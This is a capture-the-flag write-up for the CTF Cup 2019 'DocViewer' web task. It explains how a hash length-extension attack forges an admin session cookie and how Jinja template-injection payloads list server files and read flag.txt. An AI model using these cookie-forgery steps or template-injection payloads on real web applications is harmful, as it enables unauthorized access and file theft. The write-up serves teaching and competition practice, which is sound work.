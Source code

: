 # CTF Cup 2019 | Task-based – DocViewer

* **Category:** Web

## Challenge

> A large company can't live without their own service for document storing. I will never believe that somebody can read a document from other person or, God forbid, read files from the service.

### Author's repo (with task, solution and so on)

> https://github.com/HackerDom/ctfcup-2019-tb/tree/master/ideas/web/doc-viewer

## Solution

### 1) we need to login as admin to create and edit document

#####1.1) send login request with empty username, we will get hash of of `HASH_SALT`

> hash(HASH_SALT) = 4e63fdb187d6465b6420f7677cf97b2c3b58014d

#####1.2) rewrite `_calculate_inner` with other initialization parametres

hash() == A + B + C + D + E (where + is string concat)

so

>A = 0x4e63fdb1
>B = 0x87d6465b
>C = 0x6420f767
>D = 0x7cf97b2c
>E = 0x3b58014d

#####1.3) call rewritten `_calculate_inner('admin')` and get valid admin hash (== admin_hash session cookie)

(by magic and luck we don't have to brute-force length of `HASH_SALT`)

> hash(HASH_SALT + admin) = 80320e5e0460b578a836a77ccd4fc682f3adb13a

#####1.4) set cookie 

### 2) find SSTI by fazzing

if we look to packets, what server send to us, (for example In Firefox > Network > some_packet > Headers > Server) we get to know, that servers uses `gunicorn/20.0.4`

so it is likely that server is written in python => we can try Jinja Injection

### 3) send payload

(taken from https://ctftime.org/writeup/11014)

Create documents with such content:

get list of files in $PWD
>{{url_for.__globals__.os.__dict__.listdir('./')}}

find filename of flag and cat it
>{{url_for.__globals__.__builtins__.open('flag.txt').read()}}
